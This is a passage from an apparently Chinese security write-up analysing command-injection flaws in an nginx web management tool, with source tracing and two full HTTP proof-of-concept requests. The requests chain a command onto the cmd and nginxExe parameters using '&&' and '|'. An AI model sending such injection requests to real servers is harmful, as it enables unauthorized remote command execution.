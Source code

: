   
当到达函数 runCmd 时 cmd 参数可控，进行了一部分校验和过滤 只有cmd 中存在字符串 nginx 才可以继续执行，利用 && 来实现命令的拼接  
  
  
**「命令执行三」**  
  
‍  
```
POST /Api/nginx/runNginxCmd HTTP/1.1
Host: 127.0.0.1:8080
Accept: application/json, text/javascript, */*; q=0.01
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/85.0.4183.83 Safari/537.36
Origin: http://127.0.0.1:8080
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Referer: http://127.0.0.1:8080/adminPage/remote
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 19

cmd=calc%26%26nginx
```  
  
  
![](https://mmbiz.qpic.cn/mmbiz_png/0Z0LqMyVGaTJ8xicU3Uqq4NfhNWa7PYqYup8EXGVykEAibyw2K5sfIN0GxJ60684CpWgYyEJYatYbkvkxg3YMichw/640?wx_fmt=png "")  
  
  
com.cym.controller.api.NginxApiController#runNginxCmd  
  
![](https://mmbiz.qpic.cn/mmbiz_png/0Z0LqMyVGaTJ8xicU3Uqq4NfhNWa7PYqYddXVQ7thbwP3wPibOt8cicmosmIibfLJ5DtSTxwWo0cbABdjHrHQDwvDQ/640?wx_fmt=png "")  
  
  
com.cym.controller.adminPage.ConfController#runCmd  
  
![](https://mmbiz.qpic.cn/mmbiz_png/0Z0LqMyVGaTJ8xicU3Uqq4NfhNWa7PYqYgqYiaMIrxkvH9KlRkiaHuZtTq6HhH7xFKFl9wYv3V7aIZJAstZ643W5g/640?wx_fmt=png "")  
  
  
当到达函数 runCmd 时 cmd 参数可控，进行了一部分校验和过滤 只有cmd 中存在字符串 nginx 才可以继续执行，利用 && 来实现命令的拼接  
  
‍  
  
**「命令执行四」**  
  
‍  
```
GET /AdminPage/conf/reload?nginxExe=calc%20%7C HTTP/1.1
Host: 127.0.0.1:8080
Accept: application/json, text/javascript, */*; q=0.01
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/85.0.4183.83 Safari/537.36
Origin: http://127.0.0.1:8080
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Referer: http://127.0.0.1:8080/adminPage/remote
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close
```  
  